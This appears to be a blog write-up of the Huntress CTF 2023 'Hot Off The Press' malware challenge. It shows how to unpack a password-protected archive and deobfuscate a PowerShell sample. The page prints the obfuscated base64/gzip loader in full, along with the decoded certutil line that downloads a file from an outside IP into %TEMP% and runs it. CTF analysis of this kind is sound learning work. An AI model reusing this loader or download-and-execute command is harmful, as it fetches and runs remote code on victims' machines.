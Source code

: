 ```yaml
---
title: "Hot Off The Press"
date: 2023-10-03T13:11:20-10:01
#draft: true
tags: ['CTF','Writeups', 'Malware', 'Medium']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Medium Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/zerion)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/traffic) 

### Oh wow, a malware analyst shared a sample that I read about in the news!

### But it looks like they put it in some weird kind of archive...? Anyway, the password should be infected as usual! 

We are given a UHarc archive file for this challenge. 

we can download the software to decompress the file from sam.gleske [here](https://sam.gleske.net/uharc/) and extract the contents using the password 'infected'.

The result will be a .ps1 file that windows will flag as malware immedately. we can open the file in a text exitor of choice and begin deobfuscating the code.
```ps1
$x = ([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String((('H4sI'+'AIeJ'+'G2UC/+1X'+'bU/jOBD+3l9hrS'+'IlkU{0}'+'VFvb{1}IiFdWqD'+'bPRJKS8vR'+'brUKy'+'TR168TFcQplb//7'+'jfNSygJ73{1}lI94F'+'IVvwyMx4/M'+'7YfT9PYl5TH'+'hH7sku8VUnxd'+'T3gRMTT/ku'+'/fWUSjS3Mzp'+'oX7zCWHxBjby+UR'+'jzwaTw4OWq'+'kQ{1}M'+'u8XW2'+'DtJM{1}'+'omtGI'+'TFM8he5nIGAnbP'+'rOfiSf'+'Cfat2qb8W'+'uPFW{0}rlufP'+'gOzYcaD'+'GTrnvKbeq/'+'SWj0tC/ftXN8U5'+'9Uj2+ST2'+'WGHp/nUiIqgFjuk'+'l+mGrCi/USDN2'+'hvuAJn8rqJY'+'13G9VBn'+'HhTcNHa'+'ChyQMx4'+'kul'+'nZ{0}{1}a'+'AT{1}Wcr0kZyUUMHa'+'tdwX0'+'7CAQkiW6RsTI'+'/nkx+N8bF'+'3{0}00'+'ljS'+'CaieWIPiyD'+'2JFfUiq'+'n704YNC'+'D6QS1+l{0}Q'+'OJyYJoq'+'t+AIM{0}U4Zs8'+'i/MWO4c'+'Fsi91olY1sJpbpS'+'mBYG'+'9Jl1OjxIG'+'eSa+jOO'+'5kl'+'g4pcngl'+'n5UalMy7'+'yJvPq'+'3o6eZs2mX'+'3zgbAHTX6PK'+'{1}Zr'+'qHp'+'GYRBy'+'f2JBdrbGoXIgVz'+'sgGbaNGe/Yf'+'1SmP1UhP1V'+'u0U'+'e8ZDToP'+'JRn0r'+'7tr0pj38q{1}'+'ReTuIjmNI'+'YjtaxF1G/'+'zFPjuWjAl{1}{1}GR'+'7UUc9{1}9Qy8'+'GIDgCB'+'q{1}nFb4qKZ6oHU'+'dUbnSbKWUB'+'CNvHiCb'+'oFQbbfO'+'xMHjJD78QORAhd3'+'sYs'+'1aa4O6'+'CU{0}nb'+'{1}upxdtVFIbz{1}v'+'SSzSTXF7+hbpg8c'+'gsIgdJ7QYs'+'lPJs6r+4K6T'+'Mkl9{0}5Glu'+'Yn5{1}5zFtC'+'0eJ1KkPgYVIbj'+'o{0}8'+'GnHlOIWO'+'QzDaC57'+'tOwnF5/Fo+Wxx'+'juG7S0wnhgj8'+'Kh{0}1Wq'+'CPQ0Swuz2g'+'fZiZYMIpTJjosT5'+'oV4'+'OBS7I'+'8st{0}4RAf8HRc'+'hPkGa+Q'+'KSHZchP'+'D3WdcWmRIhcTDR6'+'GM2fVfnHhy'+'6uTOtAQ'+'UwTGyvTVur'+'qXKfi0+P'+'W8sVI4WAGVwCI'+'lQn'+'AgeNb0{1}ftv{0}Dxjj'+'Q6dlh+/lvbyX'+'9/K/{0}22X+XG'+'vHr'+'RZ0mnV635'+'0N7'+'+6d'+'Pmob8sR'+'bf{0}gc+/2j'+'O6vT'+'ufHt856786'+'dO6lz{1}e5i'+'e302D2/PjuxV'+'tzFMr'+'xqfFqP{0}3nQU3'+'c1G'+'9zXmzq+'+'YGzn4P8b'+'iM7f'+'Rwf85lk'+'4+Nh8w5'+'36Q1Z17P6vn7'+'WP8h1gW2R/n+0'+'m2g8UuZ'+'M{0}M3kN7UYyHh'+'T17M5+aw22'+'ch1+GvZO{0}oc3+bF'+'+FX2jz'+'PmifrIOWvTq'+'nNhse'+'D91Ba+iPwsPD'+'D2ZlPKCx3G1M1{1}W'+'+qwhS'+'RWP+p/'+'2tS+Al6'+'ud4'+'Ipl5DC8H5HTl'+'FX3C'+'xUnB1{0}qcKg3DU'+'{1}x/'+'ASIGhvQYCXR5sd'+'mMcV+RxJzSIUP'+'NeaOisYNO'+'5tVzNZNsBM0'+'H9lh2HRyM'+'0{1}u8{0}{0}O7rH'+'oKcShnVu1ut1ZD'+'7le7q+3htfj6'+'pbX4cm3ktix'+'FHjNwNtZZZt2s'+'0CkxjDfHC9'+'8H{1}unK{0}xB7C'+'Tyce'+'4H0AvlOfukrCJ'+'ucs20A'+'i5Vt8'+'u{1}R'+'fghcHVc/Vq+'+'D{0}FPQxA7'+'c{1}{1}0q/rzFxrX0'+'+uz6TZOnIC8z/AX'+'/mDwPfb8YfVVC1a'+'wcoCfd'+'jzseiN/bIX'+'DpUYmCf'+'aRhDPKHwQtAFB'+'tmK8gqP{0}gbpsWn'+'Hspnq'+'dxx8'+'emlmODf2GZMc5'+'4PA'+'AA=')-f'L','E')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()));$x
```
Once you decode the base64 encoded message it will look like this:

```ps1
certutil -urlcache -f http://.103.163.187.12:8080/?encoded_flag=%66%6c%61%67%7b%64%62%66%65%35%66%37%35%35%61%38%39%38%63%65%35%66%32%30%38%38%62%30%38%39%32%38%35%30%62%66%37%7d %TEMP%\f & start /B %TEMP%\f
```

All that is left to do now is urldecode the flag:


![hotp](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/press_flag.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/zerion)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.Medium/traffic) 